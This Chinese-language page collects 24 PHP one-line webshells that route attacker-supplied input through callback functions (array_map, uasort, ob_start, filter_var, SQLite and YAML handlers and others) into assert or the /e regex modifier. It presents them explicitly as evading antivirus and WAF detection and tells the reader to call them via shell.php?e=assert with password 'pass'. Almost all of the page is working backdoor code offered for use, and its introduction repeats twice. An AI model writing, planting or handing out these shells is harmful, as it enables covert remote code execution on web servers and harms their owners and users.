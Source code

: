 
# 过狗过盾PHP

==================


分享些不需要动态函数、不用eval、不含敏感函数、免杀免拦截的一句话。（少部分一句话需要php5.4.8+、或sqlite/pdo/yaml/memcached扩展等）

原理：https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html  
所有一句话使用方法基本都是：  
http:// target/shell.php?e=assert 密码pass

分享些不需要动态函数、不用eval、不含敏感函数、免杀免拦截的一句话。（少部分一句话需要php5.4.8+、或sqlite/pdo/yaml/memcached扩展等）

原理：https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html  
所有一句话使用方法基本都是：  
http:// target/shell.php?e=assert 密码pass

01


```
$e = $_REQUEST\['e'\];
$arr = array($_POST\['pass'\],);
array_filter($arr, $e);
```


02


```
$e = $_REQUEST\['e'\];
$arr = array($_POST\['pass'\],);
array_map($e, $arr);

```

03


```
$e = $_REQUEST\['e'\];
$arr = array('test', $_REQUEST\['pass'\]);
uasort($arr, $e);

```

04


```
$e = $_REQUEST\['e'\];
$arr = array('test' => 1, $_REQUEST\['pass'\] => 2);
uksort($arr, $e);

```

05


```
$arr = new ArrayObject(array('test', $_REQUEST\['pass'\]));
$arr->uasort('assert');
```


06


```
$arr = new ArrayObject(array('test' => 1, $_REQUEST\['pass'\] => 2));
$arr->uksort('assert');
```


07


```
$e = $_REQUEST\['e'\];
$arr = array(1);
array\_reduce($arr, $e, $\_POST\['pass'\]);
```


08


```
$e = $_REQUEST\['e'\];
$arr = array($_POST\['pass'\]);
$arr2 = array(1);
array_udiff($arr, $arr2, $e);
```


09


```
$e = $_REQUEST\['e'\];
$arr = array($_POST\['pass'\] => '|.*|e',);
array_walk($arr, $e, '');

```

10


```
$e = $_REQUEST\['e'\];
$arr = array($_POST\['pass'\] => '|.*|e',);
array\_walk\_recursive($arr, $e, '');

```

11

```
mb\_ereg\_replace('.*', $_REQUEST\['pass'\], '', 'e');
```


12


```
echo preg\_filter('|.*|e', $\_REQUEST\['pass'\], '');
```


13


```
ob_start('assert');
echo $_REQUEST\['pass'\];
ob\_end\_flush();
```


14


```
$e = $_REQUEST\['e'\];
register\_shutdown\_function($e, $_REQUEST\['pass'\]);

```

15


```
$e = $_REQUEST\['e'\];
declare(ticks=1);
register\_tick\_function($e, $_REQUEST\['pass'\]);
```


16


```
filter\_var($\_REQUEST\['pass'\], FILTER_CALLBACK, array('options' => 'assert'));
```


17


```
filter\_var\_array(array('test' => $\_REQUEST\['pass'\]), array('test' => array('filter' => FILTER\_CALLBACK, 'options' => 'assert')));
```


18


```
$e = $_REQUEST\['e'\];
$db = new PDO('sqlite:sqlite.db3');
$db->sqliteCreateFunction('myfunc', $e, 1);
$sth = $db->prepare("SELECT myfunc(:exec)");
$sth->execute(array(':exec' => $_REQUEST\['pass'\]));
```


19


```
$e = $_REQUEST\['e'\];
$db = new SQLite3('sqlite.db3');
$db->createFunction('myfunc', $e);
$stmt = $db->prepare("SELECT myfunc(?)");
$stmt->bindValue(1, $\_REQUEST\['pass'\], SQLITE3\_TEXT);
$stmt->execute();
```


20


```
$str = urlencode($_REQUEST\['pass'\]);
$yaml = <<<EOD
greeting: !{$str} "|.+|e"
EOD;
$parsed = yaml\_parse($yaml, 0, $cnt, array("!{$\_REQUEST\['pass'\]}" => 'preg_replace'));
```


21


```
$mem = new Memcache();
$re = $mem->addServer('localhost', 11211, TRUE, 100, 0, -1, TRUE, create_function('$a,$b,$c,$d,$e', 'return assert($a);'));
$mem->connect($_REQUEST\['pass'\], 11211, 0);
```


22


```
preg\_replace\_callback('/.+/i', create\_function('$arr', 'return assert($arr\[0\]);'), $\_REQUEST\['pass'\]);

```

23

```

mb\_ereg\_replace\_callback('.+', create\_function('$arr', 'return assert($arr\[0\]);'), $_REQUEST\['pass'\]);

```

24


```
$iterator = new CallbackFilterIterator(new ArrayIterator(array($\_REQUEST\['pass'\],)), create\_function('$a', 'assert($a);'));
foreach ($iterator as $item) {echo $item;}

```


